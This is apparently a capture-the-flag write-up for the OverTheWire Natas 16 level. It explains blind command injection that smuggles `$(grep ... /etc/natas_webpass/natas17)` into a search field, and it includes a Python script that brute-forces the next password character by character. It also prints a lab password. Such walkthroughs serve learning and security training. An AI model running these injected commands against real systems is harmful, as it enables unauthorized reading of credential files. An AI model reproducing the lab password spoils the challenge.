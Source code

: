 ```python
            break 
    
    # No more addition of characters is possible, 
    # hence the password we have is indeed the password for this level
    print("The final password is: " + password)
    break 
```

natas16: `TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V`

# Natas 16

Same idea as above, we will try to leak the password character by character. But the trick used here is "disgustingly" neat. 

The challenge basically blocks any attempt in escaping the double quotation marks `"`, so we can't make any attempt in leaking the entire flag in the result in the clear. We need a roundabout way to leak the flag. The filter does not filter out some symbols, in particular `$`, `(`, `)`, and `/`. 

We can load the content of a command into the double quotes `"`, in particular something like `cat /etc/natas_webpass/natas17` by doing `$(cat /etc/natas_webpass/natas17)` - the content of the password will be included in the `" "`.

But obviously getting the content of the `natas17` loaded into the `" "` of the `grep` command in `passthru` does not help us with anything - as the password is not even in the `dictionary.txt` file. We need a way to indirectly leak the content of the password stored at `/etc/natas_webpass/natas17`.

A really smart idea is to include the `grep` command in the content of the `" "`. In particular, `grep` will return the content, or part of the content of the password file if some pattern that we specify exists. Hence, we can input something like 

```bash
lunar$(grep -E ^abcd /etc/natas_webpass/natas17)
```

What this basically does is if the `grep` command returns something - let say it returns `abcd`, then the output observed on the website page is nothing (as no word in the `dictionary.txt` is `lunarabcd`). If the `grep` returns nothing, then the string that is `grep`-ed in the `grep` command in `passthru` is `lunar` - it exists in the dictionary so the output of `lunar` should be on the web page. The `-E` tag indicate that we are using a Regular Expression, and `^abcd` means that we are checking if the string in `/etc/natas_webpass/natas17` starts with `abcd`.

Hence, we are able to guess the password character by character by adding more characters to the string after the `^`. Again, we can reduce the search space by searching for all the characters that appear in the password.

The code for all of the aforementioned operation:

```python
import string 
import requests

target = 'http://natas16.natas.labs.overthewire.org'
creds = ('natas16', 'TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V')

alphanumeric = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
charset = ""
password = ""

# Generating the charset for the brute forcing (or guessing char by char)
for char in alphanumeric:
    payload = 'lunar' + '$(grep ' + char + ' /etc/natas_webpass/natas17)'
    r = requests.get(target, auth = creds, params = {"needle": payload})
    if "lunar" not in r.text:
        charset += char 

```